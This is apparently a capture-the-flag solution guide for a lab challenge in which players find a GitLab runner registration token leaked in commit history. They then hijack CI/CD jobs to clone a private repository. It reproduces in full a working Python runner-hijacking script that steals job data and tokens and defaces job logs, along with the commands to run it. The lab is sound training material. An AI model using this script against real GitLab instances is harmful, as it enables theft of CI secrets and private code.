




# Git to It

*Solution Guide*

## Overview

In *Git To It*, players must browse a public GitLab site and retrieve a registration token for a GitLab runner. Players use the GitLab runner to compromise a continuous integration and continuous delivery (CI/CD) pipeline.

Below are some helpful resources that may provide some background as you solve this challenge.

- [Abusing GitLab Runners](https://frichetten.com/blog/abusing-gitlab-runners/): A blog post that explains what runners are, how they work, and how they can be exploited.
- [gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research): A GitHub repo that contains a Python script referenced in the blog post.

## Question 1

*What's the first flag found inside the public repository?*

1. In the gamespace, browse to GitLab (`https://gitlab.awkward.org`) and register for an account.

2. After you log in with your created account, on the left navigation bar, click the magnifying glass and then click `Explore`. This will show you the only **public project** called `InternalProject`. 

3. Enter the `InternalProject`. Near the top, you will notice there are 9 Commits. Click this to view all 9 commits. 



4. Here, you will notice the last commit is called `remove flag`. Click on that one. 

5. Under **Changes**, you will see the first flag. In our case, the flag was `b2a048be`. This flag is generated dynamically so yours might be different. 




## Question 2

*Once you obtain access to the information inside the private repository, what's the second flag located inside the README.md file?*

In the guide, under `Getting Started`, we are told that the public project also has a hidden runner registration token. Let's find that. 

1. Let's go back to the `InternalProject` and click the 9 commits again. 


2. Out of all the commits, another interesting one is the one called `creds not for public use`. Click that one. You will see the Gitlab runner token. 



2. With this Gitlab runner token, you are able to register a runner. There are multiple proof of concepts online that show you how to abuse Gitlab Runners. We will be using the [code](https://github.com/Frichetten/gitlab-runner-research/blob/master/hijack-runner.py) below to do so: 

>NOTE: We have added line numbers to the code below to reference a change we performed but, you can use [this link](https://github.com/Frichetten/gitlab-runner-research/blob/master/hijack-runner.py) to copy the original code. 

```python
#!/usr/bin/env python3

import os, sys, argparse, requests, json
from urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

parser = argparse.ArgumentParser(description="Abuse GitLab Runners")
parser.add_argument('--target', dest='target', help="The GitLab instance to target")
parser.add_argument('--register', dest='register', help="Register a token")
parser.add_argument('--attack', dest='attack', help="Use Runner token to steal data")
parser.add_argument('--tag', dest='tag', help="Taglist separated with commas")
parser.add_argument('--clone', dest='clone', action="store_true", help="Will clone the repo locally")
args = parser.parse_args()

if len(sys.argv) < 2:
    parser.print_help()


""" This function formats the taglist for json """
def format_tags(tags):
    if tags:
        return ", \"tag_list\": \"%s\"" % tags
    else:
        return ""


""" This function will take a registration token and convert it into a runner token.
    That second token can then be used to steal job data """
def register_runner(registration_token, gitlab_target, tags):

    tag_list = format_tags(tags)

    REGISTRATION_JSON = '{"info":{"name":"gitlab-runner","version":"10.5.0","revision":"10.5.0","platform":"linux","architecture":"amd64","features":{"variables":false,"image":false,"services":false,"features":false,"cache":false,"shared":false}},"token":"%s","description":"sneaky_runner","run_untagged":true,"locked":true%s}' % (registration_token, tag_list)
    headers = { "Content-Type": "application/json" }

    response = requests.post(
            gitlab_target + "/api/v4/runners", 
            data=REGISTRATION_JSON, 
            headers=headers,
            verify=False
    )

    token = json.loads(response.text)
    print("Token:", token['token'])


""" This function will spam job requests and when it gets one will dump it's contents
    to a file """
def attack_runner(runner_token, gitlab_target, tags, clone):

    tag_list = format_tags(tags)

    RUNNER_JSON = '{"info":{"name":"gitlab-runner","version":"11.2.0","revision":"11.2.0","platform":"linux","architecture":"amd64","executor":"shell","shell":"bash","features":{"variables":true,"image":false,"services":false,"artifacts":true,"cache":true,"shared":true,"upload_multiple_artifacts":true}},"token":"%s","last_update":"bc5514b213c064c154d14a6008513cc0"%s}' % (runner_token, tag_list)
    headers = { "Content-Type": "application/json" }

    print("Going to start spamming. Gotta go fast...")
    finished = False
    sess = requests.Session()
    while not finished:
        response = sess.post(
            gitlab_target + "/api/v4/jobs/request",
            data=RUNNER_JSON,
            headers=headers,
            verify=False
        )

        if response.status_code == 201:
            with open('grabbed_data.json','w') as w:
                w.write(response.text)
            print(response.text)

            data = json.loads(response.text)
            if clone:
                os.system('git clone ' + data['git_info']['repo_url'])

            id_num = data['id']
            resp_token = data['token']
            print("Stolen ID:", id_num)
            TROLL_JSON = '{"info":{"name":"gitlab-runner","version":"11.2.0","revision":"11.2.0","platform":"linux","architecture":"amd64","executor":"shell","shell":"bash","features":{"variables":true,"image":false,"services":false,"artifacts":true,"cache":true,"shared":true,"upload_multiple_artifacts":true}},"token":"%s","state":"success","trace":"\\u001b[0KHi friend! You\'ve been hacked :)\\n\\u001b[0;m"}' % resp_token
            resp = sess.put(gitlab_target + "/api/v4/jobs/" + str(id_num), data=TROLL_JSON, headers=headers, verify=False)
            print("Response code:", resp.status_code)

            exit()

if args.register:
    register_runner(args.register, args.target, args.tag)
if args.attack:
    attack_runner(args.attack, args.target, args.tag, args.clone)
```

4. Now, open VSCode and create a new text file. Here, you can paste the code above. 

5. After pasting the code, save the file to your kali VM Desktop. We named our file `hijack.py` but, you can use any name you want. Just make sure to use the correct name in future commands.

6. Now, we made one small change in line 75 of the code above. Instead of just having `git clone`, we changed it to `git -c http.sslVerify=False clone`. Make sure you do this as well. The rest of the code remains the same. 

The next step will be to run this code with the correct parameters. First, we want to register the runner we found. Then, we want to hijack running projects using the CI/CD pipeline. 

7. Open a terminal and perform the following command to go to your Desktop: 

```bash
cd /home/user/Desktop
```

8. Next, let's register the runner token we found: 

```bash
python3 /home/user/Desktop/hijack.py --target https://gitlab.awkward.org --register UmEBmz3HB-TNEZ4QowPm
```

The output of this command will give you a token. With this token, you should be able to check jobs that are running on projects using the CI/CD pipeline.

9. Now, we need to run the python code one more time with different parameters. These parameters will cause the script to utilize the runner's specific API by posting on the job requests. 

>NOTE: Your obtained token might be different than the one used in the command below. Make sure you use yours.

```bash
python3 /home/user/Desktop/hijack.py --target https://gitlab.awkward.org --attack Qnp9EqQUZoKo2vUpTpBo --clone
```

The command above might take up to one minute to run. You will know it worked when you see an output similar to this one: 



This means you successfully cloned the private project and can now see its contents. 

10. Type the following commands in the terminal to retrieve the last flag: 

```bash
cd private-project/
cat README.md
```

You will obtain the last flag. 
